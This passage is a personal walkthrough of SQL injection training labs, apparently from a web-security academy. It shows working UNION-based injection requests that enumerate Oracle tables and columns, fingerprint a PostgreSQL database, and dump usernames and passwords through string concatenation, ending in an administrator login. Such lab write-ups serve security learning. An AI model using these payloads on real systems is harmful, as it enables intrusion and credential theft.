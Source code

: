 With the `ORDER BY` method I found out that the query retrieves only two columns.

Since I didn't know the name of the table containing all the users, I tried retrieving information from the table `all_tables`:

```http
GET /filter?category=Pets'+UNION+SELECT+TABLE_NAME,NULL+FROM+all_tables-- HTTP/1.1
```

Searching through the results, I found an interesting table named `USERS_VCJWBZ`. To find the columns:

```http
GET /filter?category=Pets'+UNION+SELECT+COLUMN_NAME,NULL+FROM+all_tab_columns+WHERE+TABLE_NAME='USERS_VCJWBZ'-- HTTP/1.1
```

So the columns are:

- `PASSWORD_QCKANR`
- `USERNAME_ACJIQT`

Then I retrieved the data from this table:

```http
GET /filter?category=Pets'+UNION+SELECT+USERNAME_ACJIQT,PASSWORD_QCKANR+FROM+USERS_VCJWBZ-- HTTP/1.1
```

| username_kdfgxz | password_luvdsv      |
| --------------- | -------------------- |
| administrator   | xejluufjocnurb4s9ui6 |
| carlos          | 8w02f7jxhsqx8m6g4ds0 |
| wiener          | 3shbybylv5pj7c1lpgrn |

Finally, I logged in with administrator's credentials.

### Lab 8

> SQL injection UNION attack, retrieving multiple values in a single column

The procedure is akin to the previous lab, since the number of columns is `2`. I was reminded (by the solution) to also check the types of the data retrieved.

Replacing `NULL` with different data type (`'a'` or `1`), I found out that the types are: `int` and `string`. However, I still didn't know the version of the database.

It wasn't an Oracle database, since `FROM DUAL` wasn't needed. Also, it wasn't a MySQL database, since I couldn't use `#` for commenting out the rest of the query.

I got the version using `SELECT version()`. I turned out to be a `PostgreSQL` database:

```txt
PostgreSQL 11.2 (Debian 11.2-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit.
```

The string concatenation method on PostgreSQL databases is based on the following technique: `'foo'||'bar'`, or `'foo'||'-----'||'bar'` when you want a separator (as in my case).

Finally, to get the credentials, I used the GET request below:

```http
GET /filter?category=Pets'+UNION+SELECT+1,username||'---'||password+FROM+users-- HTTP/1.1
```

